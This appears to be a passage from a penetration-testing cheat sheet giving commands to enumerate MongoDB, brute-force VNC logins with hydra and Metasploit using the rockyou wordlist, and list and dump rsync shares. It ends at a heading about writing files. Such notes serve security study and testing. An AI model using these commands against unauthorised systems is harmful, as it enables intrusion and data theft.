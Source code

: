```markdown
mongo
```

#### show the databases

```markdown
show dbs
```

#### show tables inside the database

```markdown
show tables
```

#### find content of a table

```markdown
db.$table_name.find()
```

## VNC
Bruteforce login using hydra and msfconsole
- hydra
```bash
hydra -s 5900 -P /usr/share/wordlists/rockyou.txt vnc://<IP>
```

- Metasploit
```bash
msf6 > use auxiliary/scanner/vnc/vnc_login 
msf6 auxiliary(scanner/vnc/vnc_login) > set rhosts <rhost>
msf6 auxiliary(scanner/vnc/vnc_login) > set pass_file /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/vnc/vnc_login) > run
```
- Reference: https://www.hackingarticles.in/password-crackingvnc/

Interact with VNC
```bash
vncviewer <IP>
```

## rsync
#### list files

```bash
rsync -av --list-only rsync://<IP>/<sharename> 
```

#### dump files

```bash
rsync -av rsync://<IP>/<sharename> <destnation folder>
```

#### write a file to specific location
